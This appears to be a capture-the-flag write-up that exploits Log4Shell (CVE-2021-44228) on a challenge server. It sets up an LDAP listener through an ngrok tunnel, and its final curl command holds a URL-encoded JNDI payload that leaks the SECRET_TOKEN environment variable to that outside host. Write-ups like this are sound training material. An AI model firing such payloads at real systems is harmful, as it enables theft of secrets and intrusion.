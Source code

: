 The info actuator gives us a lot of clues to work with:
1. The secret SECRET_TOKEN is stored in environment variable. We will have to read environ file or get code execution on the server.
2. Log4j 2.14.1 is being used for logging, which is vulnerable to Log4Shell (CVE-2021-44228).

I'll test for the Log4j vulnerability by making a DNS request to myself.

![DNS hit](/assets/img/2024-08-31-3108-ctf/dnsrequest.png)

We get a hit on Colaborator from the server, which highly suggests that the version of Log4j is vulnerable.

Normally, I'd use the exploit from [here](https://github.com/kozmer/log4j-shell-poc), but setup is going to be a pain because I only have the free plan for ngrok which only allows me to tunnel one connection.

Instead, since we only need to read the SECRET_TOKEN, we can leak the environment variable through [EnvironmentLookup](https://logging.apache.org/log4j/2.x/manual/lookups.html). This would only require us to setup one TCP tunnel for the LDAP server.

The easiest method I found to setup an LDAP server is to use `slapd`.
I followed the instructions from this [thread](https://serverfault.com/questions/76012/easiest-way-to-set-up-ldap-for-dev-testing), and used the following configuration for logging.
```
dn: cn=config
changetype: modify
replace: olcLogLevel
olcLogLevel: stats
```

After applying the configurations, restart the `slapd` service and you should be able to read your LDAP logs from `/var/log/slapd.log`.

Then, start an ngrok tunnel on port 389.
```
$ ngrok tcp 389
```

Finally, leak the flag by making an LDAP request to our server.
```
$ curl http://103.28.91.24:8080/sejarah?tempat=%24%7Bjndi%3Aldap%3A%2F%2F0%2Etcp%2Eap%2Engrok%2Eio%3A17699%2F%24%7Benv%3ASECRET%5FTOKEN%7D%7D
```
